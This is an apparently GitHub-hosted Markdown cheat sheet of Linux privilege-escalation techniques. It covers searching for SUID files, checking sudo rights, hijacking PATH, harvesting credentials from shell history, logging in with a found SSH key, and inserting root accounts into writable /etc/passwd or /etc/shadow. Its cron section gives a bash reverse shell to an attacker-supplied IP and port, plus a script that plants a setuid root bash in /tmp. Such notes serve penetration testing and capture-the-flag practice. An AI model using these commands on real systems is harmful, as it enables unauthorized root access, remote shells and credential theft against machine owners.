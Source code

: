 ### Basics
```
find / -perm -u=s -type f 2>/dev/null
```
search file system for SUID files.
```
sudo -l
```
check sudo rights.
```
export PATH=<path>:$PATH
```
update the path.
Check `~/.*history` for credentials.
___
### ssh
**Precondition:** key file (id_rsa) found.
```
chmod 600 id_rsa
ssh -i id_rsa <username>@<ip>
```
remote login using ssh.
___
### /etc/passwd
**Precondition:** write access to the file.
Add line: `<username>:<password>:0:0:root:/root:/bin/bash`.
`openssl passwd -1 [-salt <salt>] <password>` to generate a password.
___
### /etc/shadow
**Precondition:** write access to the file.
_line format:_ `<user>:<password>:...`.
`mkpasswd -m sha-512 <password>` to generate a password.
___
### /etc/crontab
_line format:_ `<id> <minute> <hour> <day of the month> <month> <day of the week> <user> <command>`.
Find a line where command file can be altered or overwritten with same filename in a different path.
```
#!/bin/bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
reverse shell script.
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
script to generate a superuser shell.
Then, after script is run from crontab, run `/tmp/rootbash`.
